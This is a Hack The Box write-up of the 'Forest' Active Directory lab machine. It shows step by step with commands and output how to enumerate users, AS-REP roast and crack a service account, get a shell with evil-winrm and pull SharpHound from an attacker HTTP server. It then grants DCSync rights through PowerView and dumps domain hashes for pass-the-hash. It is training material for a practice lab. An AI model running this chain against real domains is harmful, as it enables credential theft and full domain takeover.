





---
search:
  exclude: true
---
# Forest Writeup

## Introduction :

Forest is an easy windows box released back in October 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.0.0.10/16 ] [ /dev/pts/27 ] [Documents/Github/yourdoma.in]
    → nmap -sCV 10.10.10.161
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 17:55 CEST
    Nmap scan report for 10.10.10.161
    Host is up (0.34s latency).
    Not shown: 989 closed ports
    PORT     STATE SERVICE      VERSION
    53/tcp   open  domain       Simple DNS Plus
    88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-05-24 16:10:35Z)
    135/tcp  open  msrpc        Microsoft Windows RPC
    139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: 2h34m28s, deviation: 4h02m30s, median: 14m28s
    | smb-os-discovery:
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: FOREST
    |   NetBIOS computer name: FOREST\x00
    |   Domain name: htb.local
    |   Forest name: htb.local
    |   FQDN: FOREST.htb.local
    |_  System time: 2021-05-24T09:10:39-07:00
    | smb-security-mode:
    |   account_used: 
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: required
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2021-05-24T16:10:42
    |_  start_date: 2021-05-24T16:09:41
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 21.16 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up the RPC service, so let's run enum4linux: 
    
    
    [ 10.0.0.10/16 ] [ /dev/pts/6 ] [~/HTB/Forest]
    → enum4linux 10.10.10.161
    Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon May 24 18:06:21 2021
    [...]
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[$331000-VK4ADACQNUCA] rid:[0x463]
    user:[SM_2c8eef0a09b545acb] rid:[0x464]
    user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
    user:[SM_75a538d3025e4db9a] rid:[0x466]
    user:[SM_681f53d4942840e18] rid:[0x467]
    user:[SM_1b41c9286325456bb] rid:[0x468]
    user:[SM_9b69f1b9d2cc45549] rid:[0x469]
    user:[SM_7c96b981967141ebb] rid:[0x46a]
    user:[SM_c75ee099d0a64c91b] rid:[0x46b]
    user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
    user:[HealthMailboxc3d7722] rid:[0x46e]
    user:[HealthMailboxfc9daad] rid:[0x46f]
    user:[HealthMailboxc0a90c9] rid:[0x470]
    user:[HealthMailbox670628e] rid:[0x471]
    user:[HealthMailbox968e74d] rid:[0x472]
    user:[HealthMailbox6ded678] rid:[0x473]
    user:[HealthMailbox83d6781] rid:[0x474]
    user:[HealthMailboxfd87238] rid:[0x475]
    user:[HealthMailboxb01ac64] rid:[0x476]
    user:[HealthMailbox7108a4e] rid:[0x477]
    user:[HealthMailbox0659cc1] rid:[0x478]
    user:[sebastien] rid:[0x479]
    user:[lucinda] rid:[0x47a]
    user:[svc-alfresco] rid:[0x47b]
    user:[andy] rid:[0x47e]
    user:[mark] rid:[0x47f]
    user:[santi] rid:[0x480]
    [...]
    
    

Now we got a list of users through the RPC client because the NULL sessions are allowed. The svc-alfresco is most likely a service account, so let's bruteforce his hash using GetNPUsers.py:
    
    
    [ 10.0.0.10/16 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → locate GetNPUsers.py
    /usr/share/doc/python3-impacket/examples/GetNPUsers.py
    
    [ 10.0.0.10/16 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → cp $(locate GetNPUsers.py) .
    
    [ 10.0.0.10/16 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → python3 GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
    
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB.LOCAL:89d4b785e7c6fc54c5c43fcaa3cb5065$72428ed743715742a137061f08baed2741d3b13fa9e7d5139ad362374207de52ceea2d1c4c6c851ec3f5418e9770fbd7ee9e4a98be09e5fdbdd3c2adc308df47be4e45ed86d7dac2af93fffeba10958f5f9993074ced0856a5b7bda28b5429eef42f401335dbed30bb66cebaaf95805b04967da19640d5887b84cd7208878b802c2914bdba0705d944b5065fb05207a00ff3b1239fdc47686b7c4feee1ab5cf3b11c85d4426b099ff17af0b7b75e0cde27686a2dd0c406a9022ebc59da30b9e4413aecb46f8cdd835d5950a588b56ba671964d2f3aac364c403fc97bd8f38ff7c8ab49053cef
    
    

And we got svc-alfresco's TGT which is a hash that contains the encrypted password. This is because the 'Do not require Kerberos preauthentication' is set, and svc-alfresco is not configured with pre-authentication. Next step is to bruteforce the hash itself:
    
    
    [ 10.0.0.10/16 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → vim hash.txt
    
    [ 10.0.0.10/16 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → cat hash.txt
    $krb5asrep$23$svc-alfresco@HTB.LOCAL:89d4b785e7c6fc54c5c43fcaa3cb5065$72428ed743715742a137061f08baed2741d3b13fa9e7d5139ad362374207de52ceea2d1c4c6c851ec3f5418e9770fbd7ee9e4a98be09e5fdbdd3c2adc308df47be4e45ed86d7dac2af93fffeba10958f5f9993074ced0856a5b7bda28b5429eef42f401335dbed30bb66cebaaf95805b04967da19640d5887b84cd7208878b802c2914bdba0705d944b5065fb05207a00ff3b1239fdc47686b7c4feee1ab5cf3b11c85d4426b099ff17af0b7b75e0cde27686a2dd0c406a9022ebc59da30b9e4413aecb46f8cdd835d5950a588b56ba671964d2f3aac364c403fc97bd8f38ff7c8ab49053cef
    
    [ 10.0.0.10/16 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → john -w=/usr/share/wordlists/rockyou.txt hash.txt
    [...]
    Press 'q' or Ctrl-C to abort, almost any other key for status
    s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
    [...]
    
    

And now that we have alfresco's password, let's use evil-winrm to login:
    
    
    [ 10.0.0.10/16 ] [ /dev/pts/6 ] [~/HTB/Forest]
    → sudo gem install evil-winrm
    Fetching nori-2.6.0.gem
    Fetching rubyntlm-0.6.3.gem
    Fetching multi_json-1.15.0.gem
    Fetching little-plugger-1.1.4.gem
    Fetching gyoku-1.3.1.gem
    Fetching logging-2.3.0.gem
    Fetching httpclient-2.8.3.gem
    Fetching builder-3.2.4.gem
    Fetching gssapi-1.3.1.gem
    Fetching evil-winrm-2.4.gem
    Fetching winrm-2.3.6.gem
    Fetching winrm-fs-1.3.5.gem
    Fetching erubi-1.10.0.gem
    Successfully installed rubyntlm-0.6.3
    Successfully installed nori-2.6.0
    Successfully installed multi_json-1.15.0
    Successfully installed little-plugger-1.1.4
    Successfully installed logging-2.3.0
    Successfully installed httpclient-2.8.3
    Successfully installed builder-3.2.4
    Successfully installed gyoku-1.3.1
    Successfully installed gssapi-1.3.1
    Successfully installed erubi-1.10.0
    Successfully installed winrm-2.3.6
    Successfully installed winrm-fs-1.3.5
    Happy hacking! :)
    Successfully installed evil-winrm-2.4
    [...]
    
    
    
    [ 10.0.0.10/16 ] [ /dev/pts/6 ] [~/HTB/Forest]
    → evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> sysinfo
    The term 'sysinfo' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
    At line:1 char:1
    + sysinfo
    + ~~~~~~~
        + CategoryInfo          : ObjectNotFound: (sysinfo:String) [], CommandNotFoundException
        + FullyQualifiedErrorId : CommandNotFoundException
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> systeminfo
    Program 'systeminfo.exe' failed to run: Access is deniedAt line:1 char:1
    + systeminfo
    + ~~~~~~~~~~.
    At line:1 char:1
    + systeminfo
    + ~~~~~~~~~~
        + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
        + FullyQualifiedErrorId : NativeCommandFailed
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..
    *Evil-WinRM* PS C:\Users\svc-alfresco> cd Desktop
    *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
    e5XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get to the user flag.

## **Part 3 : Getting Root Access**

Now let's check the users on this machine:
    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net users
    
    User accounts for \\
    
    -------------------------------------------------------------------------------
    $331000-VK4ADACQNUCA     Administrator            andy
    DefaultAccount           Guest                    HealthMailbox0659cc1
    HealthMailbox670628e     HealthMailbox6ded678     HealthMailbox7108a4e
    HealthMailbox83d6781     HealthMailbox968e74d     HealthMailboxb01ac64
    HealthMailboxc0a90c9     HealthMailboxc3d7722     HealthMailboxfc9daad
    HealthMailboxfd87238     krbtgt                   lucinda
    mark                     santi                    sebastien
    SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb     SM_2c8eef0a09b545acb
    SM_681f53d4942840e18     SM_75a538d3025e4db9a     SM_7c96b981967141ebb
    SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b     SM_ca8c2ed5bdab4dc9b
    svc-alfresco
    The command completed with one or more errors.
    

Now here we need to do some AD recon, and we're going to use BloodHound
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → sudo apt install bloodhound -y
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → bloodhound 
    

` 

Here we see that we need to connect to the neo4j database, so let's start it up with sudo privileges:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/28 ] [~/HTB/Forest]
    → sudo neo4j console
    [sudo] password for nothing:
    Directories in use:
      home:         /usr/share/neo4j
      config:       /usr/share/neo4j/conf
      logs:         /usr/share/neo4j/logs
      plugins:      /usr/share/neo4j/plugins
      import:       /usr/share/neo4j/import
      data:         /usr/share/neo4j/data
      certificates: /usr/share/neo4j/certificates
      run:          /usr/share/neo4j/run
    Starting Neo4j.
    WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
    2021-05-24 16:45:38.529+0000 INFO  Starting...
    2021-05-24 16:45:40.163+0000 INFO  ======== Neo4j 4.2.1 ========
    2021-05-24 16:45:41.980+0000 INFO  Initializing system graph model for component 'security-users' with version -1 and status UNINITIALIZED
    2021-05-24 16:45:41.985+0000 INFO  Setting up initial user from defaults: neo4j
    2021-05-24 16:45:41.986+0000 INFO  Creating new user 'neo4j' (passwordChangeRequired=true, suspended=false)
    2021-05-24 16:45:42.003+0000 INFO  Setting version for 'security-users' to 2
    2021-05-24 16:45:42.009+0000 INFO  After initialization of system graph model component 'security-users' have version 2 and status CURRENT
    2021-05-24 16:45:42.015+0000 INFO  Performing postInitialization step for component 'security-users' with version 2 and status CURRENT
    2021-05-24 16:45:42.697+0000 INFO  Bolt enabled on localhost:7687.
    2021-05-24 16:45:43.379+0000 INFO  Remote interface available at http://localhost:7474/
    2021-05-24 16:45:43.380+0000 INFO  Started.
    
    

Now let's log into it with the default credentials **neo4j:neo4j** :

More precisely, we're going to use the Bloodhound Ingestor to collect the Active Directory Data:

 

Once you've set the new password, simply login:

Once you've logged in to bloodhound, we're going to use SharpHound.ps1 in order to find the AD Administrators, to do so we're going to make use of our Evil-WinRM session:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Forest]
    → sudo updatedb
    [sudo] password for nothing:
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Forest]
    → locate SharpHound.ps1
    /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1
    /usr/share/metasploit-framework/data/post/powershell/SharpHound.ps1
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Forest]
    → cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
    
    [ 10.0.0.10/16 ] [ /dev/pts/6 ] [~/HTB/Forest]
    → ls -lash SharpHound.ps1
    952K -rw-r--r-- 1 nothing nothing 952K May 24 18:57 SharpHound.ps1
    
    [ 10.0.0.10/16 ] [ /dev/pts/6 ] [~/HTB/Forest]
    → evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
    

Now here we need to upload SharpHound.ps1:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Forest]
    → sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    
    
    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iwr -uri "http://10.10.14.13/SharpHound.ps1" -outfile "sharp.ps1"
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls
    
    
        Directory: C:\Users\svc-alfresco\Documents
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        5/24/2021  10:24 AM         974235 sharp.ps1
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . ./sharp.ps1
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> invoke-bloodhound -CollectionMethod All
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls
    
    
        Directory: C:\Users\svc-alfresco\Documents
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        5/24/2021  10:41 AM          15196 20210524104146_BloodHound.zip
    -a----        5/24/2021  10:41 AM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
    -a----        5/24/2021  10:24 AM         974235 sharp.ps1
    
    

Once we run sharp.ps1 we get a zip file, so let's copy it back to our kali machine, to do so we can use evil-winrm's built-in download function:
    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20210524104146_BloodHound.zip
    Info: Downloading C:\Users\svc-alfresco\Documents\20210524104146_BloodHound.zip to 20210524104146_BloodHound.zip
    
    
    Info: Download successful!
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> exit
    
    Info: Exiting with code 0
    
    
    [ 10.0.0.10/16 ] [ /dev/pts/6 ] [~/HTB/Forest]
    → ls -lashg 20210524104146_BloodHound.zip
    16K -rw-r--r-- 1 nothing 15K May 24 19:39 20210524104146_BloodHound.zip
    
    [ 10.0.0.10/16 ] [ /dev/pts/6 ] [~/HTB/Forest]
    → ls -lash 20210524104146_BloodHound.zip
    16K -rw-r--r-- 1 nothing nothing 15K May 24 19:39 20210524104146_BloodHound.zip
    
    

Now that we got the zip file locally, let's load it in bloodhound:

 

So here we finally see what's going on, and we can find the shortest path to domain admin:

svc-alfresco has **GenericAll** rights on the **Exchange Windows Permissions** group, so we can add this user to the group, next the WriteDacl rights allows us to give DCsync rights to our compromised user, and retrieve the NTLM hashes for all users on the domain. To exploit the ACL path automatically we can use [aclpwn](https://github.com/fox-it/aclpwn.py):
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → pip install aclpwn
    Collecting aclpwn
      Downloading aclpwn-1.0.0-py3-none-any.whl (17 kB)
    Requirement already satisfied: requests in /usr/lib/python3/dist-packages (from aclpwn) (2.25.1)
    Requirement already satisfied: ldap3>=2.5 in /usr/lib/python3/dist-packages (from aclpwn) (2.8.1)
    Requirement already satisfied: impacket in /usr/lib/python3/dist-packages (from aclpwn) (0.9.22)
    Collecting neo4j-driver
      Downloading neo4j-driver-4.2.1.tar.gz (69 kB)
         |████████████████████████████████| 69 kB 1.6 MB/s
    Requirement already satisfied: pytz in /usr/lib/python3/dist-packages (from neo4j-driver->aclpwn) (2021.1)
    Building wheels for collected packages: neo4j-driver
      Building wheel for neo4j-driver (setup.py) ... done
      Created wheel for neo4j-driver: filename=neo4j_driver-4.2.1-py3-none-any.whl size=95273 sha256=2b8a5fca03df766fe46cfdcd83ef272170de7f3d1000c49c114ae78bd4efeea1
      Stored in directory: /home/nothing/.cache/pip/wheels/fe/a2/12/36d9ab6287417260db156b6021d409f296d274a11f23373cfe
    Successfully built neo4j-driver
    Installing collected packages: neo4j-driver, aclpwn
      WARNING: The script aclpwn is installed in '/home/nothing/.local/bin' which is not on PATH.
      Consider adding this directory to PATH or, if you prefer to suppress this warning, use --no-warn-script-location.
    Successfully installed aclpwn-1.0.0 neo4j-driver-4.2.1
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → PATH=$PATH:/home/nothing/.local/bin
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Forest]
    → aclpwn -f svc-alfresco -ft user -t htb.local -tt domain -d htb.local -dp bloodhound -du neo4j --server 10.10.10.161 -u svc-alfresco -sp s3rvice -p s3rvice 
    

So you can use that, or you can also just do it manually as follows:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Forest]
    → evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" svc-alfresco /add /domain
    The command completed successfully.
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco
    User name                    svc-alfresco
    Full Name                    svc-alfresco
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            5/24/2021 11:15:40 AM
    Password expires             Never
    Password changeable          5/25/2021 11:15:40 AM
    Password required            Yes
    User may change password     Yes
    
    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   5/24/2021 9:27:15 AM
    
    Logon hours allowed          All
    
    Local Group Memberships
    Global Group memberships     *Exchange Windows Perm*Domain Users
                                 *Service Accounts
    The command completed successfully.
    

So here we added alfresco to the **Exchange Windows Permissions @HTB.LOCAL** , next step is to grant alfresco **DcSync privileges** using [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 's3rvice' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $pass)
    

Obviously we need PowerView.ps1 so let's first copy it to our local directory where we started the Evil-WinRM session:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/30 ] [~/HTB/Forest]
    → locate PowerView.ps1
    /usr/lib/python3/dist-packages/cme/data/powersploit/Recon/PowerView.ps1
    /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
    
    

Be careful, these are outdated PowerView.ps1 files, you need to get the most recent one:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/30 ] [~/HTB/Forest]
    → wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -O PowerView.ps1
    --2021-05-24 20:16:08--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.110.133, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 770279 (752K) [text/plain]
    Saving to: ‘PowerView.ps1’
    
    PowerView.ps1                                                  100%[===================================================================================================================================================>] 752.23K  3.25MB/s    in 0.2s
    
    2021-05-24 20:16:08 (3.25 MB/s) - ‘PowerView.ps1’ saved [770279/770279]
    
    

Now we upload PowerView to the machine:
    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload PowerView.ps1
    Info: Uploading PowerView.ps1 to C:\Users\svc-alfresco\Documents\PowerView.ps1
    
    
    Data: 1027036 bytes of 1027036 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls
    
    
        Directory: C:\Users\svc-alfresco\Documents
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        5/24/2021  10:41 AM          15196 20210524104146_BloodHound.zip
    -a----        5/24/2021  10:41 AM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
    -a----        5/24/2021  11:31 AM         770279 PowerView.ps1
    -a----        5/24/2021  10:24 AM         974235 sharp.ps1
    
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> remove-module PowerView
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> import-module .\PowerView.ps1
    
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 's3rvice' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $pass)
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity "svc-alfresco" -Rights DCSync
    
    

And from there we can use secretsdump.py to get the hashes of all users using DcSync:
    
    
    secretsdump.py svc-alfresco:s3rvice@10.10.10.161
     Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
    
     [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
     [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
     [*] Using the DRSUAPI method to get NTDS.DIT secrets
     htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    
    [...]
    
      [*] Cleaning up...
    

And finally we simply use the Admin hash with psexec.py, if you don't have it yet, install it as follows:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/30 ] [~/HTB/Forest]
    → git clone https://github.com/SecureAuthCorp/impacket.git
    Cloning into 'impacket'...
    remote: Enumerating objects: 19239, done.
    remote: Counting objects: 100% (339/339), done.
    remote: Compressing objects: 100% (205/205), done.
    remote: Total 19239 (delta 193), reused 232 (delta 133), pack-reused 18900
    Receiving objects: 100% (19239/19239), 6.61 MiB | 4.26 MiB/s, done.
    Resolving deltas: 100% (14585/14585), done.
    
    [ 10.10.14.13/23 ] [ /dev/pts/30 ] [~/HTB/Forest]
    → cd impacket
    
    [ 10.10.14.13/23 ] [ /dev/pts/30 ] [HTB/Forest/impacket]
    → sudo pip3 install .
    [sudo] password for nothing:
    Processing /home/nothing/HTB/Forest/impacket
    Requirement already satisfied: chardet in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (4.0.0)
    Requirement already satisfied: flask>=1.0 in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (1.1.2)
    Requirement already satisfied: future in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (0.18.2)
    Requirement already satisfied: ldap3!=2.5.0,!=2.5.2,!=2.6,>=2.5 in /usr/lib/python3/dist-packages (from impacket==0.9.23.dev1+20210519.170900.2f5c2476) (2.8.1)
